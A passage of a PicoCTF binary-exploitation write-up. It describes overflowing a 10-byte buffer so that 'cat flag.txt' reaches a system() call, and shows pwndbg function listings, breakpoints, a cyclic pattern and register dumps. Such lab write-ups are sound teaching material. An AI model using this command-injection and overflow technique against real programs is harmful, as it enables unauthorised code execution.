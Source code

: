 And to get the flag, we have to use the shell command cat flag.txt. It can be seen at the top that it uses *cmd. So we need to fill in the buffer and also the name. Well, it's right in this name that we will insert the command. Actually, I was just bored to send the payload b'A'*10 + cat flag.txt. Because I saw that each of them was filled with an array of 10 bytes. But we will use a closer approach by using pwndbg

If we check this, here is the address location and also its function.
```asm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010a0  strcpy@plt
0x00000000004010b0  puts@plt
0x00000000004010c0  system@plt
0x00000000004010d0  printf@plt
0x00000000004010e0  strcspn@plt
0x00000000004010f0  fgets@plt
0x0000000000401100  fflush@plt
0x0000000000401110  _start
0x0000000000401140  _dl_relocate_static_pie
0x0000000000401150  deregister_tm_clones
0x0000000000401180  register_tm_clones
0x00000000004011c0  __do_global_dtors_aux
0x00000000004011f0  frame_dummy
0x00000000004011f6  main
0x0000000000401276  fun
0x00000000004012f0  __libc_csu_init
0x0000000000401360  __libc_csu_fini
0x0000000000401368  _fini
```

To validate the offset, let's stop the main function then system function and run the program by filling in any input buffer.

```asm
pwndbg> break main
Breakpoint 1 at 0x4011fe
pwndbg> cyclic 150
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
pwndbg> break system
Breakpoint 2 at 0x4010c0
pwndbg> run <<< $'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
Starting program: /home/spl1t4t3rminal/ctf/PICO_CTF/competition/vuln <<< $'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x00000000004011fe in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
 RAX  0x4011f6 (main) ◂— endbr64
 RBX  0x7fffffffda88 —▸ 0x7fffffffdd95 ◂— '/home/spl1t4t3rminal/ctf/PICO_CTF/competition/vuln'
 RCX  0x7ffff7f92680 (__exit_funcs) —▸ 0x7ffff7f94000 (initial) ◂— 0
 RDX  0x7fffffffda98 —▸ 0x7fffffffddc8 ◂— 'HOSTTYPE=x86_64'
 RDI  1
 RSI  0x7fffffffda88 —▸ 0x7fffffffdd95 ◂— '/home/spl1t4t3rminal/ctf/PICO_CTF/competition/vuln'
 R8   0x401360 (__libc_csu_fini) ◂— endbr64
 R9   0x7ffff7fcbc80 (_dl_fini) ◂— push rbp
 R10  0x7fffffffd6b0 ◂— 0x800000
```